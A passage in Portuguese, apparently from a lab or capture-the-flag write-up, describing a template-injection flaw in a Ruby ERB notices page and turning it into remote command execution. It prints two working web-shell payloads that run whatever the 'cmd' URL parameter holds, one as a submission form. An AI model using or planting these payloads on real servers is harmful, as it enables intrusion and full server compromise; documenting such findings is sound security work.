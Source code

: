 A partir dessa vulnerabilidade, é possível executar comandos no sistema
operacional do servidor. O payload a seguir permite transformar um aviso em uma
web shell que recebe e executa comandos recebidos através de um parâmetro da
URL, nesse caso o parâmetro **cmd**:

```html
<%= `#{params[:cmd]}` %>
```

Para melhor visualização, o payload a seguir foi utilizado ao invés do anterior:

```html
<form action="/avisos/7" method="get">
    <textarea id="" cols="30" rows="10">
    <% if params.key? "cmd"%>
    <%= `#{params["cmd"]}`%>
    <% end %>
    </textarea>
    <input type="text" name="cmd" id="">
    <input type="submit" value="executar">
</form>
```

Quando interpretado pelo servidor, o template anterior resulta na seguinte
página:

![](/evidences/A_taste_of_your_own_medicine_4.png)

Por fim, a execução de comandos acontece através do envio de comandos usando o
parâmetro GET **cmd**, que pode ser enviado diretamente na URL ou, no caso desse
payload, através do formulário.
